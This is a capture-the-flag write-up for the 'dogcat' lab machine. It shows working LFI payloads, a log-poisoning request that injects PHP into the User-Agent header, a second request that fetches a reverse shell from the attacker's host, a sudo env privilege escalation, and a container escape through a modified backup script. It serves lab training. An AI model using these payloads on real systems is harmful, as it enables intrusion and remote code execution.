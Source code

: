 # dogcat

### dogcat
Nmap scan shows ports 22 and 80 open. `Gobuster` reveals the presence of a file called `flag.php`:<br />
![image](https://github.com/user-attachments/assets/f3527561-1727-47fb-bd14-3f8fc129f08e)<br />
After some testing, the following payload works to retrieve the code of `dog.php`: `http://10.10.181.198/?view=php://filter/read=convert.base64-encode/resource=dog`:<br />
![image](https://github.com/user-attachments/assets/905918ae-dd45-4f71-846f-67bfa1a742a8)<br />
To read the flag, I developed this payload: `http://10.10.25.29/?view=php://filter/read=convert.base64-encode/resource=./../../../../../usr/bin/cat/../../../var/www/html/flag`. It's built this way because the string needs to have the word "cat" or "dog" in it.<br />
![image](https://github.com/user-attachments/assets/016a6e00-8a7b-42ff-9f86-6c3bcae6fbb5)<br />
But now I want to see `/etc/passwd`. If I look at the source code of `index.php`:<br />
![Screenshot 2025-03-28 145653](https://github.com/user-attachments/assets/7ac238be-2da4-4ff8-80fc-10cfa37e849d)<br />
If a variable `ext` is not set, then it automatically adds `.php` at the end of the string. So the following payload will set `ext` to an empty string and will view `/etc/passwd`. Now I can perform log poisoning attack to get RCE. First, I send the following request by modifying the useragent to add php code into the access.log file: 

    GET /?ext=&view=/.dog/../../../../../var/log/apache2/access.log HTTP/1.1
    Host: 10.10.154.107
    User-Agent: <?php system($_GET['cmd']); ?>
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Connection: keep-alive
    Upgrade-Insecure-Requests: 1
    Priority: u=0, i
Now, If I perform the following request: `http://10.10.154.107/?ext=&view=/.dog/../../../../../var/log/apache2/access.log&cmd=whoami`, I get RCE:<br />
![image](https://github.com/user-attachments/assets/7b899c2a-9a62-48fa-9b2e-3fcef422cf5b)<br />

The problem here is that I cannot spawn any reverse shell. The reason is that the target machine is actually a docker container, and doesn't have most of the commands that need to be used to spawn a reverse shell. So I got stuck for a while and had to look at an external writeup. Basically the solution is to use log poisoning, not to inject a `cmd` parameter, but to execute a small php script that will retrieve a shell from my host, In particular, the request is the following (pay attention to the useragent):

    GET /?ext=&view=/.dog/../../../../../var/log/apache2/access.log HTTP/1.1
    Host: 10.10.160.171
    User-Agent: <?php file_put_contents('rev.php',file_get_contents('http://10.11.85.53/shell.php')); ?>
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate, br
    Connection: keep-alive
    Upgrade-Insecure-Requests: 1
    Priority: u=0, i
So what I do is I create a revere php shell locally called `shell.php` (I used the one from pentest monkey), then I open a python webserver on port 80, and send the request above. Now there should be a file called `rev.php` in the root directory of the webserver, and we can just executing by visiting `http://IP_Addr/rev.php`:<br />
![image](https://github.com/user-attachments/assets/d6dd383a-6ac2-4cb7-96fd-0c30a4b28141)<br />
Second flag can be found in `/var/www`. Now if I run `sudo -l` I get this: <br />
![image](https://github.com/user-attachments/assets/0daa0c6a-c371-43cd-9792-f64804df3d56)<br />
The exploit for sudo on `env` can be found on [gtfobins](https://gtfobins.github.io/gtfobins/env/#sudo). Just run `/usr/bin/env /bin/sh -p` and become root and get the third flag! Now I need to find the last flag. Inside `/opt` there's a `backups` directory, that contains a compressed .tar file and a bash script. With root privileges I can decompress it and it creates a folder called `root` that contains the following files: <br />
![image](https://github.com/user-attachments/assets/77270443-e654-4545-9acb-289e51cde5d0)<br />
So I now know that this backup file actually contains files inside `/root/container/backup` from the host machine. In order to exploit this I can just modify the `backup.sh` file in order to give me a reverse shell (supposing it is a scheduled task from the host machine): <br />
![image](https://github.com/user-attachments/assets/a0708165-c128-456f-a003-60ea7d175bd8)<br />
This gets the 4th flag.


